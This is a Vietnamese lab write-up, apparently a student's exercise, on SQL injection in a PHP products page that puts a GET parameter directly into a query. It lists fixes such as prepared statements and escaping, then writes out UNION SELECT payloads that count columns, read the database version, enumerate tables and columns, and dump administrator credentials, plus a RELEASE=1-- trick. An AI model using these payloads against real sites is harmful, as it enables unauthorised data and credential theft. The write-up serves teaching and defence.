# Link demo : 
# Cách khắc phục :
Có thể khắc phục bằng cách tham số hóa đầu vào của thâm số người dùng truyền vào bằng một số cách như là:
-  $stmt = $conn->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
  $stmt->bind_param("ss", $username, $password);
  $stmt->execute();
- Hoặc làm sạch đầu vào   $cleaned_username = mysqli_real_escape_string($conn, $username);
$cleaned_password = mysqli_real_escape_string($conn, $password);
- Và tìm hiểu các CVE của các phiên bản để tránh được lỗi này có thể xảy ra.

Đây là giao diện khi em vào trong trang chính

Khi em click vào chọn mục products thì sẽ lấy 1 param name và sau đó hiện ra sản phẩm


* Nhận định đầu tiên có vẻ như là khi mình click vào chọn products thì sẽ lấy tên này truyền vào trong truy vấn và map ra sản phẩm nên em thử với payload:  --


Xác định được điểm có thể bị tấn công SQL injection nên em sẽ vào tấn công bên trong burp

Đây là điểm em sẽ tấn công :<



Vì ở đây em chèn không cần dấu phẩy trên để đóng tên kiểu : '--
Nên là có vẻ như là câu lệnh sẽ chèn trực tiếp vào
và dòng code đó như sau :


Câu truy vấn bị injection đó là : 
                                         $name = $_GET['name'];
                                         $sql = "SELECT * FROM $name";

+ Nên sau khi em sử dụng payload : -- thì câu truy vấn sẽ trở thành  $sql = "SELECT * FROM products--"; Và nó vẫn hoạt động bình thường

+ Bị động một chút là em thấy sản phẩm có 5 mục được gen ra cho nên cộng thêm cột id không trả ra nữa em có thể đoán được số cột trả ra là >=6
- nên em dùng payload 'union select NULL, NULL, NULL, NULL, NULL, NULL--'

+ Lúc này em nhận được thêm 1 item RỖNG

Vậy là em có thể xác nhận được là bảng products có 6 cột trong đó

- Vì vậy cho nên em sẽ chọn lệnh union select để lấy thêm dữ liệu
+ Đầu tiên em sẽ lấy ra phiên bản version của database với payload '+UNION+SELECT+NULL,@@version,NULL,NULL,NULL,NULL--'
+ Em nhận được phiên bản là 8.0.30



+ Sau đó em dùng payload  "+UNION+SELECT+NULL,table_name,NULL,NULL,NULL,NULL+FROM+information_schema.tables--"
Sau đó em được rất nhiều bảng


và có một bảng users

<Vì html hơi dài nên em để ảnh cho dễ nhìn ạ chứ trong burp dài quá chụp không xuể ạ:v>

+ Sau đó em tiến hành xác định tên của cột có trong table_users với payload  
"+UNION+SELECT+NULL,column_name,NULL,NULL,NULL,NULL+FROM+information_schema.columns+WHERE+table_name='users'--"


+ Ta có thể thấy có 3 trường quan trọng là username, password và role
+ Mục đích của em là lấy được username và password của admin nên em sẽ sử dụng payload
"+UNION+SELECT+NULL,concat(username, '--->', password),NULL,NULL,NULL,NULL+FROM users--"

Và em nhận được username là : administrator và password là hihi123
Vậy là em đã dumb thành công tài khoản mật khẩu của admin và từ đó có thể khai thác sau hơn với role admin.

Ngoài ra dạng này có có vài kiểu là nhà sản xuất sẽ có kiểu sản phần chưa phát hành nữa nên hay để RELEASE= 0 vì vậy mình có để chèn RELEASE= 1-- và như vậy mình có thể thấy được sản phầm chưa phát hành.